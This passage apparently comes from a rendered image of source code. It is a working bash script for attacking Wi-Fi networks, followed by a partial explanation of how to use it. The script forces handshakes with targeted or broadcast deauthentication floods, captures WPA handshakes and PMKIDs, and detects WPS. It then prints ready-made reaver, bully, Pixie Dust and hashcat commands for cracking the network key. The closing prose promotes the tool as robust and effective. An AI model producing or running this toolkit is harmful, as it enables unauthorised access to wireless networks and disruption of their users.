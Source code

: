 Channel: $channel" # --- Handshake Capture (airodump-ng) --- echo "[*] Attempting Handshake capture with airodump-ng..." timeout 120s airodump-ng --bssid "$bssid" -c "$channel" --output-format pcap -w "$output_prefix" "$mon_iface" & AIRODUMP_PID=$! sleep 5 # Let airodump stabilize if [ "$DEAUTH_PACKETS" -gt 0 ]; then echo "[*] Sending $DEAUTH_PACKETS deauth packets to stimulate handshake..." # Find associated stations - be careful with broadcast deauth local client_mac=$(awk -F', ' -v bssid="$bssid" '$1 == "Station MAC" { getline; if($6 == " (not associated)") next; if($6 == bssid) { print $1; exit } }' "${OUTPUT_DIR}/recon_scan"-*.csv | head -n 1 | tr -d '[:space:]') if [ -n "$client_mac" ]; then echo "[*] Deauthing specific client: $client_mac" aireplay-ng -0 "$DEAUTH_PACKETS" -a "$bssid" -c "$client_mac" "$mon_iface" else echo "[*] No specific client found, sending broadcast deauth (use with caution)..." aireplay-ng -0 "$DEAUTH_PACKETS" -a "$bssid" "$mon_iface" fi fi # Check for handshake in the capture file periodically local handshake_found=0 for _ in {1..20}; do # Check for ~100 seconds if aircrack-ng "${output_prefix}"*.cap 2>/dev/null | grep -q '1 handshake'; then echo "[+] WPA Handshake captured!" handshake_found=1 break fi sleep 5 done kill -SIGINT $AIRODUMP_PID 2>/dev/null wait $AIRODUMP_PID 2>/dev/null sleep 1 if [ $handshake_found -eq 0 ]; then echo "[-] Handshake not captured via airodump-ng within timeout." fi # --- PMKID Capture (hcxdumptool) --- echo "[*] Attempting PMKID capture with hcxdumptool..." local hcx_file="$OUTPUT_DIR/${bssid//:/_}_hcxdump.pcapng" timeout 60s hcxdumptool -i "$mon_iface" -o "$hcx_file" --filterlist_ap="$bssid" --filtermode=2 --enable_status=1 -c "$channel" if [ -s "$hcx_file" ]; then echo "[+] hcxdumptool potentially captured data. Processing..." local hash_file="$OUTPUT_DIR/${bssid//:/_}.22000" # Hashcat mode 22000 (WPA-PBKDF2-PMKID+EAPOL) hcxpcapngtool -o "$hash_file" "$hcx_file" if grep -qE '^[0-9a-f:]+:[0-9a-f:]+:[0-9a-f]+:' "$hash_file"; then # Basic check for hash format echo "[+] PMKID hash extracted to $hash_file (Hashcat mode 22000)" else echo "[-] Failed to extract PMKID hash from hcxdumptool capture." rm -f "$hash_file" # Clean up empty/invalid file fi else echo "[-] hcxdumptool captured no data." rm -f "$hcx_file" # Clean up empty file fi # --- WPS Check (wash) --- echo "[*] Checking WPS status with wash..." if wash -i "$mon_iface" -c "$channel" -C 2>/dev/null | grep "$bssid"; then echo "[+] WPS DETECTED on $bssid" WPS_ENABLED=1 else echo "[-] WPS not detected or wash failed for $bssid" WPS_ENABLED=0 fi } # Prepare Attack Commands prepare_attacks() { local bssid="$1" local essid="$2" local wordlist="$3" local wps_enabled="$4" local handshake_cap=$(ls -t "$OUTPUT_DIR/${bssid//:/_}_capture"*.cap 2>/dev/null | head -n 1) local pmkid_hash_file="$OUTPUT_DIR/${bssid//:/_}.22000" echo "--- Attack Preparation for $essid ($bssid) ---" # WPS Attack if [ "$wps_enabled" -eq 1 ]; then echo "[+] WPS Attack Recommended (use reaver or bully):" echo " reaver -i $MON_IFACE -b $bssid -c $TARGET_CHANNEL -vv -S --fail-wait=360" echo " bully $MON_IFACE -b $bssid -c $TARGET_CHANNEL -v 3" echo " (Consider Pixie Dust attack: reaver -i $MON_IFACE -b $bssid -c $TARGET_CHANNEL -K 1 -vv)" else echo "[-] WPS Attack: Not applicable (WPS not detected/supported)." fi # WPA Handshake Cracking if [ -f "$handshake_cap" ] && aircrack-ng "$handshake_cap" 2>/dev/null | grep -q '1 handshake'; then echo "[+] WPA Handshake Cracking Recommended (use hashcat):" echo " hashcat -m 22000 $handshake_cap $wordlist" echo " (Convert .cap to hccapx if needed: cap2hccapx $handshake_cap ${handshake_cap%.cap}.hccapx)" echo " (Hashcat mode for WPA/WPA2 is 22000 now, handles PMKID+EAPOL)" else echo "[-] WPA Handshake Cracking: Not applicable (Handshake not captured)." fi # WPA PMKID Cracking if [ -f "$pmkid_hash_file" ] && [ -s "$pmkid_hash_file" ]; then echo "[+] WPA PMKID Cracking Recommended (use hashcat):" echo " hashcat -m 16800 $pmkid_hash_file $wordlist" echo " (Note: Mode 16800 is specifically for PMKID-only hashes)" else echo "[-] WPA PMKID Cracking: Not applicable (PMKID hash not captured/extracted)." fi echo "---------------------------------------------" echo "[!] IMPORTANT: Execute cracking commands separately." echo "[!] Cracking can take significant time and resources." } # --- Main Execution --- start_monitor "$IFACE" if [ -z "$TARGET_BSSID" ] && [ -z "$TARGET_ESSID" ]; then # General Recon Mode recon_scan "$MON_IFACE" "$SCAN_TIME" # Could add WPS scan here too: # echo "[*] Performing quick WPS scan..." # wash -i "$MON_IFACE" -C -o "$OUTPUT_DIR/wps_scan.txt" # echo "[+] WPS scan results saved to wps_scan.txt" else # Target Mode target_capture "$MON_IFACE" "$TARGET_BSSID" "$TARGET_ESSID" "$TARGET_CHANNEL" prepare_attacks "$TARGET_BSSID" "$TARGET_ESSID" "$WORDLIST" "$WPS_ENABLED" fi stop_monitor "$MON_IFACE" echo "[*] Session logs and captures saved in: $OUTPUT_DIR" echo "[+] Operations complete." exit 0 How it’s More Robust & How to Use: 1. Integrated Workflow: It handles monitor mode setup/teardown, optional MAC changing (commented out by default), scanning, targeted capture (Handshake & PMKID), WPS checking, and attack preparation in one flow. 2. Tooling: Uses the standard, effective tools (airodump-ng, aireplay-ng, wash, hcxdumptool, hcxpcapngtool). 3. Capture Focus: Prioritizes capturing Handshakes (essential for WPA/WPA2) and PMKIDs (alternative attack if no clients are present or handshake is elusive). Uses hcxdumptool which is more modern and effective for PMKIDs than older methods. 4. Deauthentication: Includes optional and targeted deauth to speed up handshake capture. Use cautiously. Set DEAUTH_PACKETS=0 to disable. 5. Error Handling/Checks: Basic checks for root, required tools, and monitor mode success. More could be added. 6. Clear Output: Logs actions, presents discovered networks clearly, and